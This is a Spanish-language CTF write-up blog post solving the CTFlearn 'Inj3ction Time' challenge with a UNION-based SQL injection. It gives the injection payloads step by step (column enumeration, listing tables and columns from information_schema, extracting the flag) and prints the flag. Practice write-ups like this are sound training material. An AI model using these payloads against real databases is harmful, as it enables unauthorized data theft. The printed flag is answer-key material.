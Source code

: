 ```yaml
---
title: CTFlearn - Inj3ction Time
layout: post
post-image: /assets/images/gatohacker2.jpeg 
description: La resolución del reto Inj3ction Time.
tags:
- ctflearn
- post
- writeups
---
```

# Descripción
---

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


# Solución
---

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.

![](/assets/images/images-ctflearn/injection-time-1.png)

Probamos escribiendo números para saber qué tipo de ID necesita.

![](/assets/images/images-ctflearn/injection-time-2.png)

Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.

![](/assets/images/images-ctflearn/injection-time-3.png)

Primeros enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```

![](/assets/images/images-ctflearn/injection-time-4.png)

Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```

![](/assets/images/images-ctflearn/injection-time-5.png)

Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```

![](/assets/images/images-ctflearn/injection-time-6.png)

Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```

![](/assets/images/images-ctflearn/injection-time-7.png)

Al final de la página veremos una tabla que destaca.

![](/assets/images/images-ctflearn/injection-time-8.png)

Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```

![](/assets/images/images-ctflearn/injection-time-9.png)

Si vamos al final de la página veremos una que destaca `f0und_m3`.

![](/assets/images/images-ctflearn/injection-time-10.png)

Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```

![](/assets/images/images-ctflearn/injection-time-11.png)


# Flag
---

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`